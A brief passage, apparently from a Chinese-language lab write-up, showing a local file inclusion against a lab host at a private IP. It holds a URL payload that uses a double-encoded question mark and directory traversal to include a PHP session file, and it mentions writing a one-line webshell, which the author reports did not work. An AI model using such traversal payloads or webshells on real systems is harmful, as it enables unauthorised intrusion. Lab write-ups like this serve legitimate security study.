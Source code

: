 ![img](assets/1695034917864-6c0f9734-7b96-464f-b727-90cc99e8c450.png)

访问

[http://192.168.47.136:2003/?target=db_sql.php%253f/../../../../../../../../tmp/sess_87d042e299d54975eef6411cd90dd80c](http://192.168.47.136:2003/?target=db_sql.php%3f/../../../../../../../../tmp/sess_87d042e299d54975eef6411cd90dd80c)

![img](assets/1695034922793-63a15df3-4acc-4e95-a441-9fd6c4b7fca4.png)
成功执行，返回写入一句话即可利用，但是我这里没有成功
